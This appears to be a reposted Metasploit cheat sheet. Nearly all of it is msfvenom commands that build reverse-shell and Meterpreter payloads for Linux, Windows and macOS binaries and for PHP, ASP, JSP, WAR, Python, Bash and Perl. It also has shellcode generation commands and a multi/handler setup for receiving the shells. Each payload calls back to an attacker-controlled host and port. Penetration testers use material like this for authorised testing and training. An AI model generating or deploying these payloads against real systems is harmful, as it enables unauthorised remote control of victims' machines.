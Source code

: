    Often one of the most useful (and to the beginner underrated) abilities of Metasploit is the msfpayload module. Multiple payloads can be created with this module and it helps something that can give you a shell in almost any situation. For each of these payloads you can go into msfconsole and select exploit/multi/handler. Run ‘set payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads

msfvenom -l

**Binaries:**

**Linux**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac**

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Web Payloads
```

**PHP**

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

Scripting Payloads
```

**Python**

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash**

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl**

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

**Shellcode:**

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

**Linux Based Shellcode**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

 

**Mac Based Shellcode**

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```sud
use exploit/multi/handler

set PAYLOAD <Payload name>

set LHOST <LHOST value>

set LPORT <LPORT value>

set ExitOnSession false

exploit -j -z
```